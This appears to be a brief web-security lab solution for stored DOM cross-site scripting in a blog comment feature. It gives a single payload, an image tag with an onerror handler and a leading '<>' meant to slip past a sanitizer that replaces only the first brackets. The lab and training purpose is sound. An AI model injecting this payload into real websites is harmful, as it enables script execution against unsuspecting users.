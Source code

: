 # Stored DOM XSS

## This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the `alert()` function.

`<><img src=1 onerror=alert(1)>`
